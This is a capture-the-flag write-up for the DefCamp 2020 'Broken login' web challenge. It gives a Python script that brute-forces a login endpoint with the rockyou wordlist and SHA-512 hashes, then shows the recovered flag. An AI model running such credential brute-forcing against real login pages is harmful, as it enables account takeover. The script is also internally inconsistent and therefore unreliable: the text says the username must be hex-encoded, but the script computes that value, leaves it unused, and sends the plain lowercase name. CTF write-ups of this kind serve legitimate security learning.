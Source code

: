 ﻿# DefCamp-CTF-2020-Broken-login
Broken login (web/guessing, 365p, 20 solved)
Description
Intern season is up again and our new intern Alex had to do a simple login page. 
Not only the login page is not working properly, it is also highly insecure...

Flag format: CTF{sha256}
In the task we get a webpage with login form.

Task analysis
Once we type credentials in the form a POST is sent to /login and we get back redirect to /auth but our login got hex-encoded, parameter changed name from name to username and password turned into its sha512.

Solution
Guessing
It took us a very long time to guess that the login page is not working properly from task description was supposed to hint that this parameter name change was a bug.

Getting user
Once we go to /auth with name and password we get a new message Invalid user. Since the task description mentions Alex and we know we just need to hex-encode, we try with 416c6578 and we get Invalid password now.

Getting password
Now we spent very long time trying to guess the next step. Description hints at it is also highly insecure, so we expected some web-vulnerability, maybe SQLi or at least a timing attack of some sort when comparing password.

Finally the crystal ball has spoken -> maybe let's just try bruteforce the password with rockyou?

import codecs
import hashlib
import requests
import binascii

def main():
    with codecs.open("rockyou.txt", 'rb') as pass_file:
        name = 'alex'  # Define 'name' outside the loop
        for p in pass_file.readlines():
            password = hashlib.sha512(p.strip()).hexdigest()
            print(password)
            name_hex = binascii.hexlify(name.encode('utf-8')).decode('utf-8')
            print(name_hex)
            r = requests.get("http://35.198.135.192:31428/auth?name=" + name + "&password=" + password)
            if 'Invalid' not in r.text:
                print(p, r.text)
                break
            print(p, r.text)

if __name__ == '__main__':
    main()

And after a moment we get: CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}
